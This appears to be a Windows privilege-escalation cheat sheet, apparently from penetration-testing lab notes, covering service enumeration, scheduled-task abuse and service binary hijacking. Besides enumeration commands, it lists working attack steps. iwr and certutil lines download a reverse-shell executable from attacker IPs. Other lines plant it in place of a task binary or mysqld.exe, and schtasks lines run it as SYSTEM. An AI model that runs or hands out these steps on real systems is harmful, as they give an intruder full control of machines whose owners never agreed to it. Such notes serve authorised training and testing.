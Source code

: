 ### Local Service

```jsx
check service running on 127.0.0.1 or second network interface 10.10.191.254
TCP        10.10.191.254         40000        powershell

net start
wmic service list brief
sc query
Get-Service

cmd /c sc qc mysql #check ownership
sc.exe qc MySQL
```

### Scheduled Tasks

```jsx
schtasks /query /fo LIST /v > schtasks.txt
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
Get-ScheduledTask -TaskName "Task Name" -ErrorAction SilentlyContinue
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
iwr -Uri http://192.168.119.3/rs.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```

Escalate from admin to system

```jsx
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "C:\Users\Adrian\rs.exe"
schtasks /Create /RU "SYSTEM" /SC MINUTE /TN "SchedPE" /TR "C:\Users\Adrian\rs.exe"
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c certutil.exe -urlcache -split -f http://192.168.45.182:8888/supershell/compile/download/test_182.exe C:\Windows\Temp\test_158.exe & C:\Windows\Temp\test_158.exe
```

### Service Binary Hijacking

```jsx
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\xampp\apache\bin\httpd.exe"
whoami /group
iwr -uri http://192.168.119.3/rs.exe -Outfile rs.exe
move-item C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move-item .\rs.exe C:\xampp\mysql\bin\mysqld.exe

//start mode
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
shutdown /r /t 0 #SeShutDownPrivilege => reboot

//powerUp.ps1
import-module .\PowerUp.ps1
Invoke-AllChecks
Get-ModifiableServiceFile
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal
$ModifiableFiles

//check auto_start
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
Get-Service service#service list
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```